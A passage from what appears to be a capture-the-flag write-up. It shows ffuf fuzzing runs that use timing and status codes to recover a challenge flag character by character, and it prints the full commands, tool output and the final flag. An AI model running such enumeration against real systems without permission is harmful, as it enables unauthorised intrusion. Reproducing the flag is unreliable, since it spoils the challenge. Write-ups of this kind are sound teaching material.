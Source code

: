 ```bash
|                       [Status: 404, Size: 0, Words: 1, Lines: 1]
z                       [Status: 404, Size: 0, Words: 1, Lines: 1]
~                       [Status: 404, Size: 0, Words: 1, Lines: 1]
{                       [Status: 404, Size: 0, Words: 1, Lines: 1]
:: Progress: [94/94] :: Job [1/1] :: 18 req/sec :: Duration: [0:00:06] :: Errors: 1 ::
```
Note how the next character `{` responded last (though as these requests are sent in bulk, this isn't a reliable metric), so we'll also need to raise the threads to the size of the character set with `-t 94`. The more characters we know, the longer it takes so we'll also have to raise `-timeout` to a higher value than 10 seconds. This method isn't also really reliable so you may need to run same character multiple times to confirm that it actually is the next character.

Repeating this long enough, we can get character by character, until we get the flag: 
```bash
└─$ ffuf -w charset.txt -u https://ffufme2.challenge.fi/GENZ{keep_g0ing_TRY_Heftier_ok_take_flagFUZZ -mc all -t 94 -timeout 60

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://ffufme2.challenge.fi/GENZ{keep_g0ing_TRY_Heftier_ok_take_flagFUZZ
 :: Wordlist         : FUZZ: charset.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 60
 :: Threads          : 94
 :: Matcher          : Response status: all
________________________________________________

[...]
G                       [Status: 404, Size: 0, Words: 1, Lines: 1]
<                       [Status: 404, Size: 0, Words: 1, Lines: 1]
s                       [Status: 404, Size: 0, Words: 1, Lines: 1]
6                       [Status: 404, Size: 0, Words: 1, Lines: 1]
}                       [Status: 200, Size: 41, Words: 1, Lines: 1]
t                       [Status: 404, Size: 0, Words: 1, Lines: 1]
@                       [Status: 404, Size: 0, Words: 1, Lines: 1]
:: Progress: [94/94] :: Job [1/1] :: 4 req/sec :: Duration: [0:00:21] :: Errors: 1 ::
```

Flag: `GENZ{keep_g0ing_TRY_Heftier_ok_take_flag}`.